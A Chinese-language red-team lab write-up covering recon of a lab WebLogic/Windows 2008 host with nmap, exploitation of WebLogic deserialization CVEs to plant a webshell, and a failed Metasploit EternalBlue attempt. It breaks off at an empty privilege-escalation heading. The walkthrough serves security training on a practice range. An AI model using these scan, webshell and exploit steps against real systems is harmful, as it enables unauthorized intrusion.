# 靶场练习——红队实战靶场ATT&CK（二）

# 环境配置

1. web靶机有一块NAT网卡，只需要修改这块NAT网卡的网关，IP改成与攻击机器同网段就可以了
1. 关闭除域网络外的防火墙

# 信息收集

1. 主机发现，使用nmap扫描网段

   ``` powershell
   nmap -sn 192.168.2.0/24 #我的虚拟机网段
   ```

   

2. 如上图所示，192.168.2.128是我的虚拟机软路由ip，192.168.2.133是我的武器库虚拟机IP，那么192.168.2.136就是web靶机的IP了，扫描一下端口

   ``` powershell
   nmap -Pn -sV -sC -p 1-65535 192.168.2.136
   ```

   扫描结果如下，应该存在主机漏洞，待会fscan扫一下

   ``` powershell
   Not shown: 65521 closed tcp ports (reset)
   PORT      STATE SERVICE            VERSION
   80/tcp    open  http               Microsoft IIS httpd 7.5
   |_http-title: Site doesn't have a title.
   | http-methods:
   |_  Potentially risky methods: TRACE
   |_http-server-header: Microsoft-IIS/7.5
   135/tcp   open  msrpc              Microsoft Windows RPC
   139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
   445/tcp   open  microsoft-ds       Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds
   1433/tcp  open  ms-sql-s           Microsoft SQL Server 2008 R2 10.50.4000.00; SP2
   | ms-sql-ntlm-info:
   |   Target_Name: DE1AY
   |   NetBIOS_Domain_Name: DE1AY
   |   NetBIOS_Computer_Name: WEB
   |   DNS_Domain_Name: de1ay.com
   |   DNS_Computer_Name: WEB.de1ay.com
   |   DNS_Tree_Name: de1ay.com
   |_  Product_Version: 6.1.7601
   | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
   | Not valid before: 2022-08-04T02:29:37
   |_Not valid after:  2052-08-04T02:29:37
   |_ssl-date: 2022-08-04T03:53:40+00:00; -1s from scanner time.
   3389/tcp  open  ssl/ms-wbt-server?
   | rdp-ntlm-info:
   |   Target_Name: DE1AY
   |   NetBIOS_Domain_Name: DE1AY
   |   NetBIOS_Computer_Name: WEB
   |   DNS_Domain_Name: de1ay.com
   |   DNS_Computer_Name: WEB.de1ay.com
   |   DNS_Tree_Name: de1ay.com
   |   Product_Version: 6.1.7601
   |_  System_Time: 2022-08-04T03:53:16+00:00
   |_ssl-date: 2022-08-04T03:53:40+00:00; -1s from scanner time.
   | ssl-cert: Subject: commonName=WEB.de1ay.com
   | Not valid before: 2022-08-02T00:54:33
   |_Not valid after:  2023-02-01T00:54:33
   7001/tcp  open  http               Oracle WebLogic Server 10.3.6.0 (Servlet 2.5; JSP 2.1; T3 enabled)
   |_weblogic-t3-info: T3 protocol in use (WebLogic version: 10.3.6.0)
   |_http-title: Error 404--Not Found
   49152/tcp open  msrpc              Microsoft Windows RPC
   49153/tcp open  msrpc              Microsoft Windows RPC
   49154/tcp open  msrpc              Microsoft Windows RPC
   49155/tcp open  msrpc              Microsoft Windows RPC
   51967/tcp open  msrpc              Microsoft Windows RPC
   56001/tcp open  msrpc              Microsoft Windows RPC
   60966/tcp open  ms-sql-s           Microsoft SQL Server 2008 R2 10.50.4000; SP2
   | ms-sql-ntlm-info:
   |   Target_Name: DE1AY
   |   NetBIOS_Domain_Name: DE1AY
   |   NetBIOS_Computer_Name: WEB
   |   DNS_Domain_Name: de1ay.com
   |   DNS_Computer_Name: WEB.de1ay.com
   |   DNS_Tree_Name: de1ay.com
   |_  Product_Version: 6.1.7601
   | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
   | Not valid before: 2022-08-04T02:29:37
   |_Not valid after:  2052-08-04T02:29:37
   |_ssl-date: 2022-08-04T03:53:40+00:00; -1s from scanner time.
   MAC Address: 00:0C:29:94:82:68 (VMware)
   Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
   
   Host script results:
   | smb-security-mode:
   |   account_used: guest
   |   authentication_level: user
   |   challenge_response: supported
   |_  message_signing: disabled (dangerous, but default)
   | smb2-time:
   |   date: 2022-08-04T03:53:16
   |_  start_date: 2022-08-04T02:30:08
   | smb2-security-mode:
   |   2.1:
   |_    Message signing enabled but not required
   | smb-os-discovery:
   |   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
   |   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
   |   Computer name: WEB
   |   NetBIOS computer name: WEB\x00
   |   Domain name: de1ay.com
   |   Forest name: de1ay.com
   |   FQDN: WEB.de1ay.com
   |_  System time: 2022-08-04T11:53:16+08:00
   |_nbstat: NetBIOS name: WEB, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:94:82:68 (VMware)
   | ms-sql-info:
   |   192.168.2.136:1433:
   |     Version:
   |       name: Microsoft SQL Server 2008 R2 SP2
   |       number: 10.50.4000.00
   |       Product: Microsoft SQL Server 2008 R2
   |       Service pack level: SP2
   |       Post-SP patches applied: false
   |_    TCP port: 1433
   |_clock-skew: mean: -53m21s, deviation: 2h40m00s, median: -1s
   ```

3. 开放了80端口，访问一下是空白的，开放了7001端口weblogic服务

   

# 外网突破

## 方法一：weblogic漏洞利用

1. 使用weblogic扫描利用工具扫描一下漏洞

   

   

   

2. 扫描结果存在CVE-2018-3245、CVE-2019-2725和CVE-2020-2551三个漏洞，利用漏洞getshell，上传冰蝎马，上传路径：

   ``` powershell
   C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\uddiexplorer\5f6ebw\war\shell.jsp
   ```

   

3. 使用反序列化工具可以操作jsp大马的webshell，但是用冰蝎、哥斯拉和蚁剑均连接不上

   

4. 使用蚁剑生成一个shell，然后通过反序列化工具上传到目标weblogic下，再使用蚁剑连接，成功获取到webshell

   

## 方法二：ms17-010直接获取system权限

1. 端口扫描发现开放了445端口，直接fscan扫一下

   

2. 发现ms17-010，使用msf进行验证

   ``` powershell
   search ms17_010
   use 3
   set rhost 192.168.2.136
   run
   ```

   

3. 利用ms17_010攻击模块进行攻击

   ``` powershell
   use exploit/windows/smb/ms17_010_eternalblue
   set rhost 192.168.2.136
   exploit
   ```

   

4. exp已编译，但是没有会话产生，有可能是msf版本问题，ms17-010利用失败

# 权限提升

1. 
